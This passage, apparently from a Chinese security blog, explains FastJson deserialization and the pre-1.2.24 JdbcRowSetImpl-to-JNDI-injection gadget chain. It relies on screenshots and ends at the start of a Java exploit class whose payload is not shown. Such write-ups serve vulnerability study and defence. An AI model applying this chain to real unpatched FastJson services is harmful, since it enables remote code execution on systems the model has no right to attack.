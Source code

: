 *   **FastJson 不需要实现 Serializable**
    
*   **不需要变量不是 transient/可控变量：**
    
    1.  变量有对应的 setter
        
    2.  或是 public/static
        
    3.  或满足条件的 getter(返回值是)：
        

[![](assets/1701612260-e721f698fee9fee33ea0cc516672b9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225652-28dc968c-2969-1.png)

*   **反序列化入口点不是 readObject，而是 setter 或者是 getter**
    
*   **执行点是相同的：反射或者类加载**
    

## FastJson<1.2.24:

### JdbcRowSetImpl 类+JNDI 注入（出网）：

#### 调用链

*   我们首先找到了漏洞的利用点是一个`JNDI`注入：

[![](assets/1701612260-542e741f8c958620dc3c364be9d42afe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225950-92b81dce-2969-1.png)

*   然后我们要看一下`getDataSourceName`下面的参数可不可控，可以看到存在 setter 方法，所以可控：

[![](assets/1701612260-55a68703a5fc25a213368fc49f8180df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230020-a4a147e0-2969-1.png)

*   这里我们就要找一下对应的 setter 或者是符合条件的 getter 方法能够调用 connect 的方法：这里我们找到了三种，因为我们要用 get 或者是 set 方法，但是这里的 get 并不能满足我们上面所说的要求，所以这里我们选择 setter 方法：

[![](assets/1701612260-0fbd17af2ae6ac8a1643dc9fa5681d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230047-b48325de-2969-1.png)

[![](assets/1701612260-998696022ddb6518147d740b6cb2dbee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230054-b8dc871a-2969-1.png)

#### EXP:

*   我们生成一下 jndi 注入的 payload 然后导入：

[![](assets/1701612260-04d7d043f01a4c0baff9e0161058a123.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230103-be4be006-2969-1.png)

```plain
package EXP;

import com.alibaba.fastjson.JSON;

public class FastJsonJdbcRowSetlmpl {
    public static void main(String[] args) throws Exception{


//@type 调用 com.sun.rowset.JdbcRowSetImpl 类里面的 setter 触发 connet,connect 触发 JNDI 注入


// 第二个键对传入变量名
        /*
            public void setDataSourceName(String name) throws SQLException {
        */
// 第二个值对应 JNDI 注入的链接


// 第三个值对应调用 connect 方法的 setAutoCommit
```